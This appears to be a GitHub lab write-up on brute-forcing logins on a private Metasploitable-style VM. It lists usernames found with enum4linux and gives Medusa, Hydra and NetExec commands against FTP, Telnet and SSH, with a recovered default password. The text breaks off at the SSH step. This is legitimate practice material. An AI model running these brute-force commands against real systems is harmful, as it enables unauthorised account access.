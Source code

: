 ![image](https://github.com/user-attachments/assets/fa5186a8-b64e-4795-bd1b-4e2c80ba1b48)


### Usernames Found:
From enum4linux :
- msfadmin
- postgres
- root
- ftp
- telnetd
- user

---

## 🔧 2. Brute Force Attacks

### ✅ FTP
**Tool:** Medusa  
**Command:**
```bash
medusa -h 192.168.100.131 -u msfadmin -P passwords.txt -M ftp
```
we need to create password.txt which will be list of password we use to bruteforce.

![image](https://github.com/user-attachments/assets/232bdb41-7f2b-4019-96e6-6f546d35f3eb)

![image](https://github.com/user-attachments/assets/d7ae1f3a-2b78-445f-896f-8ec37ee58103)

now we can use the command to bruteforce ftp port :)

![image](https://github.com/user-attachments/assets/259ff710-ce32-44a7-bd5d-62311701752f)

YEAYYY!!!
### ✅ TELNET
**Tool:** Hydra

**Command:**
```bash
hydra -l msfadmin -P passwords.txt 192.168.100.131 telnet
```

as Hydra is often more reliable with Telnet we will use it.

![image](https://github.com/user-attachments/assets/913775ce-e25f-4035-9301-504aa03408ed)

we can see from the result that the valid password is "msfadmin" ><

### ✅ SSH
**Tool:** NetExec  
**Command:**
```bash
nxc ssh 192.168.100.131 -u username.txt -p passwords.txt
```
SSH Brute Force using NetExec
✅ Step 1: Create a new list for username and save it as username.txt
